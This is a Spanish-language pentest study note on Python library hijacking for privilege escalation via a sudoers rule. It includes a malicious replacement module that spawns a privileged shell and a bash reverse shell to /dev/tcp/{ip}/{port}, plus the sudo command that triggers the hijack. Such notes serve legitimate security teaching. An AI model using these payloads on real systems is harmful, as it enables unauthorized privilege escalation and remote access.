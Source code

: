 -----
- Tags: #escalada #teoria #practica
-----


# Python Library Hijacking 

### Cuando hablamos de **Python Library Hijacking**, a lo que nos referimos es a una técnica de ataque que aprovecha la forma en la que Python busca y carga bibliotecas para inyectar código maliciosos en un script. El ataque se produce cuando un atacante re o modifica una biblioteca en una ruta accesible por el script de Python, de tal manera que cuando el script la importa, se carga la versión maliciosa en lugar de la legítima. 

### La forma en que el ataque se lleva a cabo es la siguiente: el atacante busca una biblioteca utilizad por el script y la reemplazas por su propia versión maliciosa. Esta biblioteca puede ser una biblioteca estándar de Python o una biblioteca externa descargada e instalada por el usuario. El atacante coloca  su versión maliciosa en una ruta accesible antes que la biblioteca legítima sea encontrada.

### En genera, Python comienza buscando estas bibliotecas en el directorio actual de trabajo y luego en las rutas definidas en la variable sys.path. Si el atacante tiene acceso de escritura en alguna de las rutas definidas en sys.path, puede colocar allí su propia versión maliciosa de la biblioteca y hacer que el script cargue en lugar de la legítima.

### Además, el atacante también puede crear su propia biblioteca en el directorio actual de trabajo, ya que Python comienza la búsqueda en este directorio por defecto. Si durante la carga de estas librerías desde el script legítimo, el atacante logra secuestrarlas, entonces conseguirá una ejecución alternativa del programa. 

# Escalada 

### Supongamos que estamos en un sistema con el usuario **dobliuw** (El cual tenemos en poder) y otro usuario con mayores privilegios llamado **admin**, en el archivo de **/etc/sudoers** esta declarada la sentencia **dobliuw ALL=(admin)  NOPASSWD: /usr/bin/python3 /home/admin/myFirstScript.py**, lo cual al hacer **sudo -l** como el usuario dobliuw vemos que podemos ejecutar un script llamado *myFirstScript.py* como el usuario *admin* sin  proporcionar contraseña con python3. 

### El script es algo básico como lo siguiente: 

```python
#!/usr/bin/python3
import time, hashlib, signal, sys

def ctrl_c(sig, frame):
	print("\n\n\t[!] Quiting...\n\n")
	sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c) 

def main():
	name = str(input("Please insert your name: "));
	time.sleep(2)
	print("\n\n\t[!] Oh I understand now... Hello {} ({})\n\n".format(name,hashlib.md5(name.encode()).hexdigest()))


if __name__ == "__main__":
	main()
```
#### Es un script x de ejemplo, podría ser cualquier tipo de script. 

### En este momento es cuando, en caso de tener permiso de escritura en el directorio en el cual se encuentra el script (*/home/admin*) o tenerlo en alguna de las carpetas en donde python busca las librerías (**python3 -c 'import sys; print(sys.path)'** para ver los paths) o incluso teniendo permisos de escritura en alguna de las librerías que se importa el script, en este caso *hashlib*, *signal*, etc. podríamos acontecer un *Python Library Hijacking*.

### Por ejemplo podríamos crear el script (En la carpeta de trabajo o alguna de las otras), o incluso modificar la librería original para ingresar código malicioso que ejecute alguna acción, por ejemplo espawnear una consola como el usuario administrador aprovechando que podemos ejecutar el script como dicho usuario gracias a los permisos SUID, o enviarla a un equipo remoto, etc.

#### signal.py  ||  hashlib.py
```python
# Spawnear una consola como el usuario admin
import os

os.system("bash -p")

#############################################3

# Enviar una reverse shell como el usuario admin a un dispositivo remoto 
import subprocess

subprocess.Popen(["bash -c 'bash -i &>/dev/tcp/{ip}/{port} 0>&1'"], shell=True)
```

### Una vez teniendo el código malicioso en un nuevo archivo en el directorio de trabajo con el nombre de una de las librerías importadas en el script original, o habiendo modificado la librería real bastaría con ejecutar el script como el usuario *admin* aprovechando los permisos garantizados en el archivo de sudoers y tendríamos la ejecución de los comandos deseados.  **sudo -u admin /usr/bin/python3 /home/admin/myFirstScript.py** 
